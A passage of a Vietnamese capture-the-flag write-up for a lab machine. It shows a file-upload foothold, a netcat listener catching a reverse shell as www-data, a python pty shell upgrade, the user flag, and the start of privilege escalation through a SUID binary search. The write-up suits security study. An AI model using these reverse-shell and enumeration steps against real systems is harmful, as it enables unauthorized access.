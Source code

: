 Tuy web hiện *File no Exist!* nhưng khi kiểm tra lại http server thì tôi thấy file đã được tải lên

```python
┌──(neo㉿kali)-[~]
└─$ python -m http.server                                                                               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.249.167 - - [22/Sep/2022 23:03:57] "GET /test.txt HTTP/1.0" 200 -
```

Tạo listener với port 9001 `nc -lnvp 9001`

Thử truy cập vào file *test.php*

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.107.75] 44226
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

config lại shell với python 

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ export TERM=xterm
www-data@ubuntu:/$ 
```

Và sau đó tôi tìm thấy *user flag* trong thư mục user *grecia*

```python
www-data@ubuntu:/$ ls /home
grecia
www-data@ubuntu:/$ ls /home/grecia/
user.txt
```

## Privilege escalation

Vì không có manh mối nào để tìm ra password của user *grecia* nên tôi sẽ thử tìm các file chạy dưới quyền root

```python
www-data@ubuntu:/$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/bin/ping
/bin/umount
/bin/ping6
/bin/fusermount
/bin/mount
/bin/su
www-data@ubuntu:/$
```
